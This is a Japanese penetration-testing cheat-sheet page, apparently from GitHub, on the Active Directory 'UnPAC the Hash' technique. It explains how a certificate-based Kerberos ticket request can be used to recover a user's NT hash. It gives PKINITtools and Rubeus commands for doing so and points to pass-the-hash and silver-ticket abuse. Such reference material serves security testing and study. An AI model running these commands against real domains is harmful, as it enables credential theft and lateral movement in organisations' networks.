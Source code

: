 # UnPAC The Hash

PKINIT を用いて TGT (Ticket Granting Ticket) を取得する場合、KDC (Key Distribution Center) は認証ユーザの NTLM 鍵 (LM および NT ハッシュ) を含む`PAC_CREDENTIAL_INFO`構造体をチケットに含める。この機能により、リモートサーバが Kerberos をサポートしていない場合でも、非対称な Kerberos の事前認証機構(PKINIT など)に依存することなく、NTLM 認証に切り替えることができる。

NTLM 鍵は、U2U による TGS-REQ と S4U2self (これは KDC に対するサービスチケットのリクエストであり、ユーザ自身に対する認証を要求するものである) の後に回復可能である。(`S4U2self + User-to-User authentication`)

以下のプロトコル図に、UnPAC-the-hash がどのように動作するのかを詳細に示す。これにより、ユーザの秘密鍵を知っている攻撃者や、[Shadow Credentials](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Shadow%20Credentials.md)や[Golden Certificate]()攻撃を行なうことができる攻撃者は、ユーザの LM ハッシュや NT ハッシュを復元することができる。

![](../../image/UnPAC-the-hash.Dt-60pdc.png)

## UnPAC-The-Hash

### Linux

[PKINITtools (Python)](https://github.com/dirkjanm/PKINITtools) で、まずPKINIT 事前認証を検証してTGT を取得

```
gettgtpkinit.py -cert-pfx <PATH_TO_CERTIFICATE> -pfx-pass <CERTIFICATE_PASSWORD> <DOMAIN>/<TargetUser> <TGT_CCACHE_FILE>
```

NTLMハッシュを復元

```
export KRB5CCNAME=<TGT_CCACHE_FILE>
getnthash -key <AS-REP encryption key> <DOMAIN>/<TargetUser>
```

### Windows

Rubeus

```
Rubeus.exe asktgt /getcredentials /user:<TargetUser> /certificate:<BASE64_CERTIFICATE> /password:<CERTIFICATE_PASSWORD> /domain:<DOMAIN> /dc:<DC_DOMAIN> /show
```

## さらに悪用する

NTハッシュは[Pass-The-Hass]()、[Silver Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Forged%20Tickets/Silver%20Tickets.md)、[Kerberos delegations]()に悪用できる
